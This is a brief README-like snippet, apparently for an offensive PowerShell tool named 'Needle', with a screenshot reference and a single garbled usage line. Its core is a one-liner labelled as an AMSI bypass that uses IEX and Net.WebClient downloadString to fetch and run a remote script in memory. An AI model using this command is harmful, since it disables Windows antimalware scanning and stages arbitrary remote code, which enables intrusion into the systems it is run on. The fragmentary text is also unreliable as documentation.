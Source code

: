 Greetings
----------

![alt text](<2024-06-26 08_25_55-Select Windows PowerShell.png>)

after inction in session run with : Needle

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('http://127.0.0.1:8080/Needle.ps1')

